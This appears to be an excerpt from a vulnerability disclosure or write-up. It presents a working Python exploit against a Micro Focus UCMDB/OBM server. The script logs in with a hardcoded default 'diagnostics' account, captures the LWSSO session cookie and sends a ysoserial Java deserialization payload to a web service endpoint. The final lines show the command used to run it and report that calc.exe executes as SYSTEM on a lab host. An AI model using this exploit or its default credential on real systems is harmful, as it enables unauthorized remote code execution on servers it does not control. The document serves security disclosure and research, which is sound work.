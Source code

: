 ```python
ysoserial = sys.argv[2]
command = sys.argv[3]

if not os.path.exists(ysoserial):
    usage()

requests.packages.urllib3.disable_warnings()

print("[*] Generating ysoserial payload with command %s" % (command))
os.system("java -jar %s CommonsBeanutils1 '%s' > /tmp/payload.ser" % (ysoserial, command))

url_base = "https://%s:8443/ucmdb-ui" % (rhost)

url_login = url_base + "/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB"
print("[*] Authenticating to %s" % (url_login))
ses = requests.Session()
res = ses.post(url_login, verify=False)

auth = None
for cookie in res.cookies.items():
    if cookie[0] == "LWSSO_COOKIE_KEY":
        auth = cookie

if auth == None:
    print("[-] Failed to authenticate and obtain LWSSO_COOKIE_KEY")
    exit(1)
else:
    print("[+] We are now authenticated and obtained our LWSSO_COOKIE_KEY!")

# SecurityService is used here, but any of the other 37 endpoints can be used
url_pwn = url_base + "/services/SecurityService"
print("[*] Sending ysoserial payload to %s" % (url_pwn))

headers = {'content-type': 'application/x-java-serialized-object'}
with open('/tmp/payload.ser', 'rb') as payload:
    res = ses.post(url_pwn, headers=headers, data=payload, verify=False)
    if res.status_code == 500:
        print("[+] Success, your command has been executed!")
    else:
        print("[-] Something went wrong, please try again...")

```

Running the exploit code with:

```
python3 ucmdbPwn.py 10.10.10.99 ysoserial-master-SNAPSHOT.jar calc.exe
```

... will result in *calc.exe* being executed as SYSTEM in the Windows host at 10.10.10.99 running OBM:
